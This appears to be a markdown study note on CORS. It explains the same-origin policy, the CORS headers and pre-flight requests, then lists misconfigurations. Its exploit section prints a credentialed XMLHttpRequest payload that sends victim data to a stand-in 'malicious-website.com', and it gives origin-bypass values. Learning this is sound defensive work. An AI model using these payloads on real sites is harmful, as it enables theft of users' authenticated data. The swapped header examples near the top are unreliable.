 # CORS

<details>

<summary>Same-origin policy (SOP)</summary>

* The same-origin policy restricts scripts on one origin from accessing data from another origin.

<!---->

* An origin consists of a URI scheme, domain and port number.

<!---->

* The SOP prevents a malicious website from running JS in a browser to read data from a third-party website. (There are various exceptions)

<!---->

* The SOP allows embedding of images via the `<img>` `<video>` `<script>`.
  * However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.

</details>

<details>

<summary>Cross-origin resource sharing</summary>

The cross-origin resource sharing specification provides controlled relaxation of the same-origin policy. The CORS specification identifies a collection of protocol headers

* `Origin` header added by the browser.
  * ```http
    Access-Control-Allow-Origin: https://normal-website.com
    ```
* `Access-Control-Allow-Origin` returned by a server when a website requests a cross-domain resource.
  * ```http
    Origin : https://normal-website.com
    ```

This means that the browser will allow code running on normal-website.com to access the response because the origins match.



**Access-Control-Allow-Origin: \***

The use of the wildcard `*` is restricted in the specification as you cannot combine the wildcard with the cross-origin transfer of credentials (authentication, cookies or client-side certificates). This following response is not permitted

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```



**Access-Control-Allow-Origin: null**

Browsers might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file` protocol.
* Sandboxed cross-origin requests.

</details>

<details>

<summary>Pre-flight checks</summary>

Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the OPTIONS method.

For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

* This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials (authentication, cookies or client-side certificates), and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse
* More info about preflight: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#preflighted\_requests

</details>

## Vulnerabilities

**Server-generated ACAO header from client-specified Origin header**

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

Detection&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

Exploit

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
</script>
```

**Errors parsing Origin headers**

* Some apps enable access from various sources through a whitelist of permitted origins
* Suppose `normal-website.com`
* Use as origin: `hackersnormal-website.com` or `normal-website.com.evil-user.net`

**Whitelisted null origin value**

* Set `Origin: null` in the request
* Response has `Access-Control-Allow-Origin: null`
* Many other ways ...


